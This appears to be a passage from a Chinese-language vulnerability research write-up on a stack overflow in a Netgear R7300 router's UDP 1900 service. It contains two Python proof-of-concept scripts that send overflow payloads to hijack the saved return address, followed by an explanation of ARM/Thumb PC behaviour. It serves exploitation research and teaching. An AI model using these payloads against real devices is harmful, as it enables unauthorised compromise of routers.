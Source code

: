 直接构造溢出字符，程序不会正常返回，因为栈上存在一个v40的指针v51，需要覆盖为有效地址才能正确返回。
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1610083781/netgear/image_23.png)

```
#!/usr/bin/python3

import socket
import struct

p32 = lambda x: struct.pack("<L", x)
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
payload = (
    0x634 * b'a' +
    p32(0x43434343)
)
print(payload)
s.connect(('192.168.2.2', 1900))
s.send(payload)
s.close()
```



![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1610083780/netgear/image_24.png)
```
#!/usr/bin/python3

import socket
import struct

p32 = lambda x: struct.pack("<L", x)
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
payload = (
    0x604 * b'a' +  # dummy
    p32(0x7e2da53c) +  # v51
    (0x634 - 0x604 - 8) * b'a' +  # dummy
    p32(0x43434343)  # LR
)
s.connect(('192.168.2.2', 1900))
s.send(payload)
s.close()
```

可以看到，我们向返回地址发送的数据为0x43434343，但最后PC寄存器的值为0x43434342，最后一个bit变为0，这是为什么？https://blog.3or.de/arm-exploitation-defeating-dep-executing-mprotect.html

* 首先溢出覆盖了非叶函数的返回地址。一旦这个函数执行它的结束语来恢复保存的值，保存的LR就被弹出到PC中返回给调用者。
* 其次关于最低有效位的一个注意事项：BX指令将加载到PC的地址的LSB复制到CPSR寄存器的T状态位，CPSR寄存器在ARM和Thumb模式之间切换：ARM（LSB=0）/Thumb（LSB=1）。
    * 我们可以看到R7300是运行在THUMB状态
    * 当处理器处于ARM状态时，每条ARM指令为4个字节，所以PC寄存器的值为当前指令地址 + 8字节
    * 当处理器处于Thumb状态时，每条Thumb指令为2字节，所以PC寄存器的值为当前指令地址 + 4字节
* 因此保存的LR（用0x43434343覆盖）被弹出到PC中，然后弹出地址的LSB被写入CPSR寄存器T位（位5），最后PC本身的LSB被设置为0，从而产生0x43434342。
